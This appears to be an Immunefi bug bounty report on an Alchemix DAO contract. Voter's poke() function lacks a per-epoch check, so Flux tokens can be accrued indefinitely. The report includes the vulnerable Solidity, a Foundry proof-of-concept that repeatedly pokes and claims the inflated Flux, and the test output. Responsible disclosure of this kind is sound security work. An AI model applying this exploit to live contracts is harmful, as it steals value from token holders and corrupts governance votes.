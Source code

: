 
# Users can use Voter@poke to accrue Flux tokens indefinitely

Submitted on Thu May 09 2024 23:45:32 GMT-0400 (Atlantic Standard Time) by @imsrybr0 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30990

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Users can use Voter@poke to accrue Flux tokens indefinitely.

## Vulnerability Details
```solidity
// ...
contract Voter is IVoter {
    // ...
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);  // <=== audit
    }

    function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        // ...
        IFluxToken(FLUX).accrueFlux(_tokenId); // <=== audit
        // ...
    }
    // ...
}
```

```solidity
// ...
contract FluxToken is ERC20("Flux", "FLUX"), IFluxToken {
    // ...
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
    // ...
}
```

Since `Voter@poke` does not check if the given token id already voted in the current epoch, it can be repeatedly called by a user to accrue Flux tokens indefinitely.

## Impact Details
* Artificially boost voting power for gauges voting.
* Claim Flux ERC20 tokens to :
  * Sell them
  * Use them to ragequit for free

## References
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L195-L212
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L423
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol#L188-L192
        
## Proof of concept
## Proof of Concept
```solidity
    function testPokeRepeatedly() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        
        hevm.startPrank(admin);

        console2.log("Initial Unclaimed Flux", flux.unclaimedFlux(tokenId1));

        voter.poke(tokenId1);

        console2.log("Unclaimed Flux after one poke", flux.unclaimedFlux(tokenId1));

        for (uint256 i; i < 10; i++) {
            voter.poke(tokenId1);
        }

        console2.log("Unclaimed Flux after 10 other pokes", flux.unclaimedFlux(tokenId1));

        flux.claimFlux(tokenId1, flux.unclaimedFlux(tokenId1));

        console2.log("Flux ERC20 balance", flux.balanceOf(admin));
    }
```

## Results
```console
Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testPokeRepeatedly() (gas: 1457575)
Logs:
  Initial Unclaimed Flux 0
  Unclaimed Flux after one poke 994553684669529957
  Unclaimed Flux after 10 other pokes 10940090531364829527
  Flux ERC20 balance 10940090531364829527

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 55.84s (45.19s CPU time)

Ran 1 test suite in 57.17s (55.84s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```